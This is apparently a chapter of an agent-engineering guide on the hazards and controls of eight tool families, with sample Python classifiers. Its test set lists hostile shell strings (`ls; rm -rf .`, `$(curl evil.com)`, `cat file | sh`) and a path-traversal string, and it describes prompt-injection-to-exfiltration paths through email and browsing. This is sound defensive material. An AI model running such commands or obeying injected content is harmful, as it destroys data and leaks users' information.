

# Topic 9 — The Standard Tool Families: Shell, Filesystem, Browser, Computer-Use, Retrieval, Web-Search, Database, and Communication



## 1. Scope, prerequisites, terminology, boundaries, exclusions, outcomes

**Scope.** The concrete inventory. Eight families that appear in nearly every agent system, characterized by the two properties that determine their engineering: **effect breadth** (how many effect classes a single tool spans) and **trust class** (whether its output is attacker-reachable).

**Prerequisites.** Topic 5 (effect classes; per-call classification); Topic 7 (result budgets); Topic 12 is the companion — several families here are *defined* by their untrusted output.

**Terminology.** *General-purpose tool*: one whose arguments span effect classes (shell, code exec, SQL, HTTP). *Grounded tool*: one whose output originates outside your authority domain.

**Boundaries.** Inside: the per-family hazard and result profile, and the specific controls each needs. Outside: domain agent construction (Chapter 11); retrieval architecture (Chapter 6); the threat model (Chapter 12).

**Exclusions.** No product comparisons; no browser-automation tutorial.

**Outcomes.** The reader can classify each family, apply the right control, and recognize the two families that are dangerous in ways their APIs do not reveal.

## 2. Problem, bottleneck, objective, assumptions, constraints, success criteria

**Problem.** These eight families are treated as eight tools. They are not: they are eight *hazard profiles*, and applying uniform machinery to them is how agent incidents happen. A `web_search` and a `db_query` have nothing in common operationally — one returns attacker-controlled text, the other returns trusted rows and can drop a table.

**Bottleneck.** Two of the eight — **shell** and **database** — are general-purpose: a single tool spanning read, reversible write, and irreversible write depending on its argument. Topic 5's per-call classification is not an optimization for these; it is the only thing standing between the agent and `DROP TABLE`. And three of them — **web-search, browser, communication** — return content an adversary can write, which makes them prompt-injection carriers by construction (Topic 12).

**Objective.** A per-family control table that a reader can apply directly.

**Assumptions.** The model will eventually propose the worst call each tool permits.

**Constraints.** Some families (browser, computer-use) have poor result-compression options: a screenshot is not summarizable without loss.

**Success criteria.** Every family in your system has its per-call classifier, its result budget, and its trust class set correctly.

## 3. Intuition first, then formalization

### 3.1 Intuition: two axes, eight families

The families sort on two questions, and everything else follows:

**"Can one call of this tool do anything, depending on its argument?"** — Shell, code execution, SQL, and generic HTTP say yes. These are **general-purpose tools**, and they are the ones where a static effect class is a lie. The rest have narrow, fixed effects.

**"Could an adversary have written the bytes this returns?"** — Web search, browser, email/communication ingestion, and third-party MCP say yes. These are **grounded tools** whose output is untrusted data (Topic 12), and every one of them is a prompt-injection carrier.

The families that answer *yes to both* are the most dangerous objects in an agent system, and browser tools are the canonical case: a browser can navigate (read), submit forms (irreversible write), and returns page content an attacker fully controls.

### 3.2 Formalization: the hazard profile

For family $f$ define $\mathrm{haz}(f)=(\beta_f,\ \theta_f,\ \omega_f)$ where $\beta_f$ = **effect breadth** (the number of classes in $\{\textsf{R},\textsf{W}_{\mathrm{rev}},\textsf{W}_{\mathrm{irr}}\}$ its calls can occupy), $\theta_f$ = **trust class** of its output, $\omega_f$ = **result compressibility** (can $\Sigma^{\mathrm{out}}$ be reduced without losing task-relevant signal). **[synthesis]**

| Family | $\beta_f$ | $\theta_f$ | $\omega_f$ | The control that actually matters |
|---|:--:|---|---|---|
| **Shell** | **3** | Trusted (own output) | High | **Per-call classification with a command allowlist** (Topic 5, §6). Never a denylist. |
| **Filesystem** | 3 | Mixed — *file contents are untrusted* | High | Path confinement (no `..`, no symlink escape); read/write split; **file content is data** |
| **Browser** | **3** | **Untrusted** | **Low** | The worst cell in the table: full effect breadth, attacker-controlled content, screenshots that resist compression |
| **Computer-use** | **3** | **Untrusted** | **Low** | As browser, plus: no semantic action boundary at all — a click is a click |
| **Retrieval (own corpus)** | 1 (R) | Mixed — *documents may be user-supplied* | High | Result budget; provenance; **corpus poisoning is real** if users can write to it |
| **Web search** | 1 (R) | **Untrusted** | Medium | Injection carrier. Provenance + no-act-on-instructions (Topic 12) |
| **Database** | **3** | Trusted | High | **Per-call classification; separate read-only credentials; no DDL** |
| **Communication** (email, chat, ticket) | 2–3 | **Untrusted inbound** | Medium | **Irreversible outbound** (E4, Topic 5) + **untrusted inbound** (Topic 12). Both, at once. |

**[derived — the table is ours; the underlying mechanisms are sourced in §5.]**

The two rows to internalize:

**Browser and computer-use are $\beta=3$, untrusted, and incompressible simultaneously.** They are the only family with all three adverse properties, and they are exactly the family teams add most casually ("let it browse the web"). A browser tool grants an agent an irreversible write channel (any form on the internet), fed by content an attacker controls, with results you cannot cheaply compress.

**Communication tools are the injection loop.** Inbound email is attacker-written; outbound email is irreversible and leaves your authority domain forever. An agent that reads and sends email has a complete attacker-controlled path from injected instruction to exfiltrated data, and it is a single tool pair.

## 4. Architecture

```
   GENERAL-PURPOSE (β=3)                    GROUNDED (θ=untrusted)
   ┌────────────────────────┐               ┌──────────────────────────┐
   │ shell, code exec,      │               │ web search, browser,     │
   │ SQL, generic HTTP      │               │ email inbound, 3P MCP    │
   │                        │               │                          │
   │ REQUIRES:              │               │ REQUIRES:                │
   │  per-call classifier   │               │  provenance envelope     │
   │  allowlist (not deny)  │               │  data≠control (CP-1)     │
   │  scoped credentials    │               │  no-act-on-instructions  │
   └────────────────────────┘               └──────────────────────────┘
              │                                          │
              └────────────┬─────────────────────────────┘
                           ▼
                  ┌──────────────────────┐
                  │ BOTH: browser,       │  ← the maximum-hazard cell
                  │ computer-use,        │     β=3 AND untrusted
                  │ communication        │
                  └──────────────────────┘
```

**Credential scoping is the family-level control that generalizes.** For every general-purpose family, the blast radius is set by the *credential*, not by the tool. A database tool with a read-only role cannot drop a table no matter what SQL the model writes; a shell in a container with no network cannot exfiltrate. **Scope the credential to the effect class you intend, and the tool's breadth stops mattering.** This is strictly more robust than argument inspection, because it does not depend on your parser being cleverer than the model.

## 5. Grounding

- **Sandbox modes as the shell/filesystem control surface:** Codex documents `read-only`, `workspace-write`, and `danger-full-access` sandbox modes, with approval policies `untrusted` / `on-request` / `never`, and platform sandboxing via Seatbelt and bubblewrap [CDX]. The mode names *are* the effect classification (Topic 5), applied to the shell family.
- **Argument- and context-dependent hazard, which is the formal basis of $\beta_f=3$:** "The same command may be safe in a disposable sandbox but unsafe in a production repository, and the same network request may be benign during documentation retrieval but risky when it transmits local state" [CAH §5]. This sentence is *about* the general-purpose families.
- **Environment-interaction tools as a first-class class:** the survey's taxonomy separates function-oriented tools from environment-interaction tools that "allow agents to act over repositories and execution environments," and verification-driven tools that "provide deterministic feedback" [CAH §3.3] — test runners, compilers, and linters are a family this topic inherits from Chapter 3's verification sensors.
- **Code-defined environments and executable feedback:** WebArena, OSWorld, AndroidWorld, and Spider2-V expose Playwright-style code actions whose execution is ground truth, with per-task checkers interrogating post-action system state [CAH §3.3]. This grounds the browser/computer-use family's *action* representation.
- **Grounding as the bottleneck for computer-use:** the survey cites SeeAct's analysis "showing that grounding, rather than planning, is the dominant bottleneck on Mind2Web" [CAH §3.3]. **This is a directly relevant, sourced finding: for GUI agents the interface layer — not the reasoning — is where the failures are.** It is Chapter 5's thesis, confirmed in the hardest tool family.
- **Consolidation examples map onto these families:** `search_logs` over `read_logs`; `get_customer_context` over three lookups [WTA] — the filesystem and database families are exactly where the brute-force-search anti-pattern bites.
- **The 25,000-token cap** [WTA] applies hardest here: shell output, file reads, and search results are the unbounded-result families.

**Evidence gaps.** No source provides comparative reliability data across families. The hazard table is a derivation from documented semantics and the effect-class framework, not a measured ranking. The SeeAct grounding result [CAH §3.3] is the only *measured* family-specific bottleneck available.

## 6. Implementation

**Shell — allowlist, per call, with context:**

```python
READ_ONLY = {"ls", "cat", "grep", "rg", "find", "head", "tail", "wc", "diff",
             "git status", "git log", "git diff"}          # ALLOWLIST. Never a denylist.

def classify_shell(args, ctx) -> Effect:
    cmd = args["command"]
    # A denylist loses to `sh -c`, `$(...)`, `;`, `&&`, `|`, base64, and novel binaries.
    if any(ch in cmd for ch in ";|&$`>()"):
        return Effect.WRITE_IRREVERSIBLE          # composition ⇒ assume the worst
    head = " ".join(shlex.split(cmd)[:2])
    if head in READ_ONLY or shlex.split(cmd)[0] in READ_ONLY:
        return Effect.READ
    return (Effect.WRITE_REVERSIBLE if ctx.workspace.is_disposable   # [CAH §5]
            else Effect.WRITE_IRREVERSIBLE)
```

The metacharacter check is not paranoia. **Any shell metacharacter defeats argument inspection**, so a command containing one cannot be classified as read — it must fall to the worst class. This is the only sound way to inspect shell arguments, and it is why the credential/sandbox scoping of §4 matters more than the parser.

**Database — the credential is the control:**

```python
db_query = ToolContract(                       # read path
    name="db_query", effect=Effect.READ,
    executor="readonly_replica",               # ← a role that CANNOT write. This is the control.
    output=OutputContract(budget_tokens=10_000, default_limit=100),
    ...)

db_execute = ToolContract(                     # write path — a SEPARATE tool
    name="db_execute", effect=Effect.DYNAMIC,
    authorize=deny_ddl_and_unbounded_updates,  # no DROP/TRUNCATE/ALTER; UPDATE requires WHERE
    idempotency=IdempotencyContract(key_fields=["statement_id"]),
    ...)
```

Splitting read and write into two tools with two credentials is worth more than any amount of SQL parsing. `db_query` on a read-only replica **cannot** cause a write, whatever the model emits. That is a guarantee; a parser is a hope.

**Browser and communication — trust class is not optional:**

```python
browser_read = ToolContract(
    name="browser_get_page", effect=Effect.READ,
    trust=Trust.UNTRUSTED,                     # page content is attacker-authored
    output=OutputContract(budget_tokens=15_000),
    provenance=Provenance(source="web", url_required=True),   # Topic 12
    ...)

email_send = ToolContract(
    name="email_send", effect=Effect.WRITE_IRREVERSIBLE,      # leaves your domain forever
    authorize=require_recipient_allowlist_and_confirmation,   # E1 + gate (Topic 5)
    idempotency=IdempotencyContract(key_fields=["message_id"]),   # E2
    ...)
```

The pairing of `email_read` (untrusted inbound) with `email_send` (irreversible outbound) in the same agent is the injection-to-exfiltration path of §3.2. If both exist, the recipient allowlist is not a nicety — it is the control that bounds the damage.

## 7. Trade-offs

| Family | The capability you want | What you are actually buying |
|---|---|---|
| Shell | Universality — it can do anything | It can do anything |
| Filesystem | Direct workspace access | Path traversal; unbounded reads; untrusted file contents |
| Browser | The whole web | An irreversible-write channel on every form, fed by attacker text, with incompressible results |
| Computer-use | Any GUI | The above, plus no action semantics: you cannot allowlist a click |
| Retrieval | Grounded answers | Corpus poisoning if users can write to the corpus |
| Web search | Fresh knowledge | The cleanest prompt-injection carrier in existence |
| Database | Structured truth | DDL, unbounded updates, and full-table reads |
| Communication | The agent can act in the org | Irreversible outbound + untrusted inbound in one agent |

**The trade the table is really making.** Every one of these families is added because it *increases capability*, and every one increases hazard by the same mechanism. The engineering question is never "is this tool useful" — it always is. It is **"can I scope the credential and classify the call well enough that the hazard is bounded?"** Where the answer is no — computer-use is the honest example, since a click has no semantics to inspect — the correct control is not a better parser but a **smaller authority domain**: a throwaway VM, a test account, no production credentials.

## 8. Experiments

**Per-family result-size distributions.** p50, p95, and **max** for shell output, file reads, search results, and page content. The max is what ends runs. Most teams have never looked.

**Classifier evaluation (shell, SQL) — the important one.** Build a labeled set of commands spanning the three effect classes, *including adversarial compositions* (`ls; rm -rf .`, `cat file | sh`, `$(curl evil.com)`, base64-encoded payloads). Measure the classifier as a detector:

- **False-negative rate on writes** — a write classified as read. **This is the number that matters, and it must be zero**; report the zero-failure bound $p_{\max}=1-(1-\gamma)^{1/n}$ with its $n$ (Chapter 1, Topic 12).
- False-positive rate on reads — a read classified as a write. Costs usability, not safety. Tolerate it.

**Injection testing (browser, web search, email, retrieval).** Inject instruction-bearing content into the untrusted channel; measure the rate at which the agent acts on it. This is Topic 14's protocol, applied per family, and it is the only way to know whether your data/control boundary holds.

**Grounding evaluation (computer-use).** Per the SeeAct finding that grounding rather than planning is the bottleneck [CAH §3.3], measure action-grounding accuracy separately from plan quality — otherwise a grounding failure is misattributed to reasoning, and you will tune the wrong thing.

**Statistics.** Wilson intervals on all rates; clustered bootstrap where tasks are the unit (Chapter 1, Topic 12).

## 9. Failure modes, edge cases, hazards, mitigations, open limitations

- **Shell denylist.** Defeated by composition, encoding, or a binary you did not think of. **The failure is silent and total.** Mitigation: allowlist; metacharacter rejection; sandbox authority.
- **`rm -rf` via argument.** Static classification of `bash` as one class. Mitigation: per-call (Topic 5).
- **Path traversal.** `../../../etc/passwd`, symlink escape. Mitigation: canonicalize and confine; deny symlinks crossing the root.
- **Unbounded file read.** A 2 GB log. Mitigation: budget + range selection [WTA].
- **DDL through the query tool.** Mitigation: read-only credential — the control that cannot be talked around.
- **Unbounded `UPDATE` without `WHERE`.** Mitigation: require a predicate; cap affected rows.
- **Browser form submission.** The agent buys something, posts something, deletes an account. Mitigation: classify navigation vs. submission; gate submission (E1/E2, Topic 5).
- **Prompt injection via page, search result, email, or poisoned corpus document.** The dominant hazard of the grounded families. Mitigation: Topic 12, in full.
- **Screenshot cost.** Computer-use results resist compression; context fills with images. Mitigation: budget; downscale; prefer accessibility-tree text where available.
- **Retrieval corpus poisoning.** If users can write to the corpus, retrieval is an untrusted channel wearing a trusted label. Mitigation: trust class by *document provenance*, not by store.
- **Edge case — the verification-driven family.** Test runners and compilers [CAH §3.3] are the one family whose output is *trusted and deterministic*, which makes them the harness's verification sensors (Chapter 3, Topic 7). Protect that property: a test runner that executes repository code is executing *untrusted* code, and its output is only trustworthy if the harness — not the repo — controls the command.
- **Open limitation.** Computer-use has **no semantic action boundary**. A click cannot be allowlisted the way a command can. There is no known control other than a reduced authority domain, and this is an unsolved problem, not a gap in this chapter's coverage.

## 10. Verified observations, decision rules, production implications, connections

**Verified observations.**
1. Platform sandbox modes (`read-only` / `workspace-write` / `danger-full-access`) and approval policies are the shipped control surface for the shell/filesystem family [CDX].
2. Hazard depends on argument *and* environment, not tool identity [CAH §5].
3. Environment-interaction and verification-driven tools are distinct classes with distinct feedback properties [CAH §3.3].
4. For GUI agents, **grounding rather than planning is the dominant bottleneck** [CAH §3.3, citing SeeAct on Mind2Web] — the interface, not the reasoning.

**Decision rules.**
- **General-purpose tool ⇒ per-call classification + allowlist + scoped credential.** All three. A denylist is not a control.
- **Grounded tool ⇒ untrusted output.** Provenance envelope, and data must not act as control (Topic 12).
- **Browser or computer-use ⇒ assume the worst on all three axes.** Give it a throwaway authority domain, not production credentials.
- **Read and write ⇒ two tools, two credentials.** Especially for databases. The credential is the guarantee; the parser is a hope.
- **If an agent both reads untrusted mail and sends mail, it has an exfiltration path.** Bound it with a recipient allowlist or do not give it both.

**Production implications.**
1. Audit the eight families against §3.2's table; most systems have at least one $\beta=3$ tool with a static class.
2. Replace every denylist with an allowlist this week.
3. Split read/write credentials for databases and filesystems — the highest-return control in the topic.
4. Run the classifier false-negative experiment (§8) and report it with $n$. Until then, you do not know your shell tool is safe; you have merely not seen it fail.

**Connections.** Topic 5's per-call classification is *mandatory* for four of these families. Topic 7's budgets bind hardest here. Topic 8's code execution is the shell family taken to its architectural conclusion — and inherits every hazard in this topic. Topic 12 owns the grounded families' trust problem. Chapter 11 builds domain agents on top of these families; Chapter 12 supplies the sandbox and threat model that the general-purpose families require to be safe at all.

## Sources

[CDX] OpenAI Codex documentation — sandbox modes (`read-only`, `workspace-write`, `danger-full-access`); approval policies (`untrusted`, `on-request`, `never`); Seatbelt / bubblewrap platform sandboxing — https://learn.chatgpt.com/docs/agent-approvals-security
[CAH] Code as Agent Harness, arXiv:2605.18747 (`Knowledge_source/2605.18747v1.pdf`) §3.3 (function-oriented / environment-interaction / verification-driven / workflow-orchestration tool classes; code-defined environments and executable feedback — WebArena, OSWorld, AndroidWorld, Spider2-V; **SeeAct's finding that grounding, rather than planning, is the dominant bottleneck on Mind2Web**), §5 ("the same command may be safe in a disposable sandbox but unsafe in a production repository, and the same network request may be benign during documentation retrieval but risky when it transmits local state")
[WTA] Anthropic, "Writing effective tools for agents" — `search_logs` over `read_logs`; `get_customer_context`; the 25,000-token response cap; pagination, range selection, filtering, truncation — https://www.anthropic.com/engineering/writing-tools-for-agents
[CAL] Claude Agent SDK — parallel read-only / serialized write execution, which these families inherit — https://code.claude.com/docs/en/agent-sdk/agent-loop
